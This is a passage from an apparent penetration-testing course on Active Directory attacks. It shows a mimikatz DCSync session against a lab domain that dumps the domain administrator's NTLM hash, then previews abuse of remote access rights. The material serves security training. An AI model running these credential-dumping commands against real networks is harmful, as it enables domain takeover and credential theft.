 ```powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

---

## Moving On

In the next section, we'll see some ways to enumerate and take advantage of remote access rights that may be granted to a user we control. These methods include Remote Desktop Protocol (RDP), WinRM (or PsRemoting), and SQL Server admin access.